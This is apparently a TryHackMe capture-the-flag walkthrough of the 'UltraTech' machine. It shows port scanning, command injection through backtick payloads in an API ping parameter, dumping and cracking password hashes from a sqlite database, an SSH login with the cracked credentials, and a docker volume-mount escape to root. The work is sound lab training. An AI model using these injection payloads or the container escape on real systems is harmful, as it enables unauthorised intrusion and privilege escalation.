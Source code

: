 This is medium level challenge in TryHackMe

Going with the NMAP scan as usual
```diff
nmap 10.10.13.195 -T4 -A -p- -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 10:07 EDT
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 83.40% done; ETC: 10:23 (0:02:39 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 83.41% done; ETC: 10:23 (0:02:38 remaining)
Stats: 0:13:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 83.44% done; ETC: 10:23 (0:02:38 remaining)
Stats: 0:13:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 83.51% done; ETC: 10:23 (0:02:38 remaining)                                                                                  
Nmap scan report for 10.10.13.195                                                                                                                           
Host is up (0.20s latency).                                                                                                                                 
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/19%OT=21%CT=1%CU=35736%PV=Y%DS=5%DC=T%G=Y%TM=66C3
OS:559C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%II=I%TS=A)SEQ(S
OS:P=105%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II
OS:=I%TS=A)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=RD%TS=A)OPS(O1=M508ST11NW6%O2=M
OS:508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN
OS:(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=690
OS:3%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(
OS:R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z
OS:%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RI
OS:PL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   32.42 ms  10.17.0.1
2   ... 4
5   274.04 ms 10.10.13.195
```

Ports 21, 8081 and 31331 are the ports that look interesting. Port 21 has an FTP server running, but it does not allow anonymous login. So, it let's look further into the other ports before coming back. 

Port 31331 has the following 
![alt text](/assets/image9.png)

Navigating to /robots.txt we can see that "/utech_sitemap.txt" is disallowed. Now navigating to "/utech_sitemap.txt". Here we have 

```diff
/
/index.html
/what.html
/partners.html
```
/partners.html is a new endpoint, which I could'nt previously find.

Navigating to partners.html, it is a login form asking for a username and password. I saw this api.js file while inspecting this page. 
![alt text](/assets/image10.png)

Now navigating to api.js
```diff
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

Port 8081 endpoint seems to be an API endpoint, with majorly two functionality, ping and authetication. This ping helps in identifying if the API endpoint is active or not. Now looking deeper into this ping functionality there seems to be a problem. The IP parameter seems to be manipulable. So, theoretically the backend should look something like.

```diff
ping <ip_passed_by_IP_param>
```

So with this idea in mind, I tried to perform command injection attacks. Tried several payloads like
```diff
127.0.0.1; ls
127.0.0.1 & ls
```
These did not seem to work. Finally, the following payload 

```diff
`ls`

ping: utech.db.sqlite: Name or service not known 
```

"utech.db.sqlite" is leaked, hence verifying the execution of ls. Now let's cat out the contents of this db.
```diff
ping: ) ���(M r00tf357a0c52799563c7c7b76c1e7543a32) M admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded 
```
Dehashing the password. r00t:n100906,admin:mrsheafy. Using any of these we can login to the page.

![alt text](/assets/image11.png)

Now lets try to ssh into the given IP using r00t creds.
```diff
ssh r00t@10.10.16.170 
The authenticity of host '10.10.16.170 (10.10.16.170)' can't be established.
ED25519 key fingerprint is SHA256:g5I2Aq/2um35QmYfRxNGnjl3zf9FNXKPpEHxMLlWXMU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:28: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.16.170' (ED25519) to the list of known hosts.
r00t@10.10.16.170's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 21 16:43:22 UTC 2024

  System load:  0.0                Processes:           102
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 69%                IP address for eth0: 10.10.16.170
  Swap usage:   0%

 * Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd
   directly, see https://bit.ly/ubuntu-containerd or try it now with

     snap install microk8s --channel=1.14/beta --classic

1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$ 
```

Nicee!! Now there are no flags for this challenge so, let's move on to privelege escalation. Note in the above output, when we ssh into the IP we can see "Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd" indicating that the instance is running as a docker image. 

```diff
r00t@ultratech-prod:~$ docker images

REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB

```

Now we can break out of the docker instance as root by doing the following

```diff
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
$# whoami
root
```

That's it. Peace.